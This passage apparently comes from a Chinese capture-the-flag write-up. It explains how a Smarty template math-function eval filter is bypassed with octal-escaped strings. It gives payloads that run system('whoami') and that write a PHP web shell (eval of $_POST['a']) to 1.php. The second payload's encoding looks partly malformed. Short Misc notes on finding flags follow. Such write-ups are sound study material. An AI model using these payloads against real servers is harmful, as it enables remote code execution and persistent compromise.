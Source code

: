 ![在这里插入图片描述](https://img-blog.csdnimg.cn/78ca368e6db24c94a7d7842379b911f0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

在function_math.php里面，有eval可以执行命令，但是这里有一个过滤

![在这里插入图片描述](https://img-blog.csdnimg.cn/ac8b80e8ec5248a1942d64939e6245f7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

这个过滤如果没过去，那么就会进入到error出去

![在这里插入图片描述](https://img-blog.csdnimg.cn/285deff6b37445dba13880b3bcf3b973.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

这个可以用八进制去绕过

![在这里插入图片描述](https://img-blog.csdnimg.cn/cae23279f4f94e7c86badf2ee6890682.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

可以看到生成了模板缓存文件，将执行的命令结果输出

![在这里插入图片描述](https://img-blog.csdnimg.cn/beead5595ff94a2eb13ae7ddc02cd40a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

payload：

```php
data={$poc="poc"}{math equation="(\"\\163\\171\\163\\164\\145\\155\")(\"\\167\\150\\157\\141\\155\\151\")"}
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/dfa857bb91e74c638e595dcba3d9d92d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

拿flag写个马就行了

```php
file_put_contents("1.php","<?php eval($_POST['a']);?>")
```

转一下得到
```php
eval:{$poc="poc"}{math equation="(\"\\146\\151\\154\\145\\137\\160\\165\\164\\137\\143\\157\\156\\164\\145\\156\\164\\163\")(\"\\31\\2e\\70\\68\\70\",\"\\74\\77\\160\\150\\160\\40\\145\\166\\141\\154\\50\\44\\137\\120\\117\\123\\124\\133\\47\\141\\47\\135\\51\\73\\77\\76\")"}
```

但是这个就很奇怪，这样执行命令的话就不会经过他所修改的正则的方法里面，这是算一个非预期解吗

# Misc
## MissingFile
直接文本搜索都有flag了

![在这里插入图片描述](https://img-blog.csdnimg.cn/1e4d0cfa4aa74c1ea7d15de9e26dc556.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
## 重要系统（复现）
有键盘流量

![在这里插入图片描述](https://img-blog.csdnimg.cn/0fd9beb4befd4a9482183b60c6149128.png)

连接上ssh后，不需要提权能直接grep到flag。。。




